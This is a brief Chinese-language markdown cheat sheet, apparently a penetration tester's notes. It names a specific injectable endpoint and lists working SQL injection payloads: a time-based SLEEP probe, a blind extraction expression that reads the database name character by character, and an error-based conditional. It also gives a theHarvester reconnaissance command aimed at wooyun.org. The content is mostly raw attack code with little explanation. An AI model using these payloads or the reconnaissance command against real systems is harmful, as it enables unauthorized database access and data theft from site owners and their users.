 ## sql注入
###注入点    Acts/SetCount?id=63200
```sql
' AND (SELECT * FROM (SELECT(SLEEP(5)))RING) and 'RING'='RING
```

```sql
(SELECT * FROM (SELECT(SLEEP((ASCII(MID(LOWER(DATABASE())," + str(i) + ",1))=" + str(ord(_str)) + ")*5)))RING)
```

```sql
' and if((1=2),1,(select 1 union select 2))#
```

## 信息收集
###The harvester
```bash
./theHarvester.py -d wooyun.org -l 500 -b baidu -v 
```
